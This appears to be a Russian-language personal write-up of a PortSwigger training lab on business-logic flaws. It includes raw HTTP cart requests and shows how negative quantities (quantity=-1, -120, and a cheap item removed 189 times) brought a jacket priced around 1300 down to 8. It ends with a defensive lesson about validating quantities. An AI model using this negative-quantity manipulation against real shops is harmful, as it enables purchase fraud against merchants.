



лаба https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level

здесь не валидируется ввод
нужно кукить кожанную куртку

-----

вот запрос на добавление товара +1 

```http
POST /cart HTTP/2
Host: 0ab2001104541e4680a5857700ca00c1.web-security-academy.net
Cookie: session=TWtavXl928tysFOm1UYp1WPcItKsygMh
Content-Length: 33
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ab2001104541e4680a5857700ca00c1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab2001104541e4680a5857700ca00c1.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

productId=1&quantity=1&redir=CART
```

можно  тут менять колличество

--------

а вот запрос на удаление товаров 

```http
POST /cart HTTP/2
Host: 0ab2001104541e4680a5857700ca00c1.web-security-academy.net
Cookie: session=TWtavXl928tysFOm1UYp1WPcItKsygMh
Content-Length: 34
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ab2001104541e4680a5857700ca00c1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab2001104541e4680a5857700ca00c1.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

productId=1&quantity=-1&redir=CART
```

и я сделал productId=1&quantity=-120&redir=CART



не получилось купить отрицательное число

------

я добавил и куртке
и добавил еще товар недорогой 
и как  в способе выше - я уводил стоимость корзины вниз - вычитая этот товар 189 раз из корзины
и цена упала на ссумму куртки

и так как баланс не может быть отрицательным - то я выровнял баланс так - чтобы он был положительным и купил куртку по цене 1300 заплатив 8 , ну и купил минус 189 товаров




лаба раешена!! 



вывод просто и очевидный

нельзя допустить, чтобы цену, колличесвто итд итп можно было менять перехватом запросов

нельзя допустить уход в отриц баланс.. итд.. тут куча косяков уровня детского сада.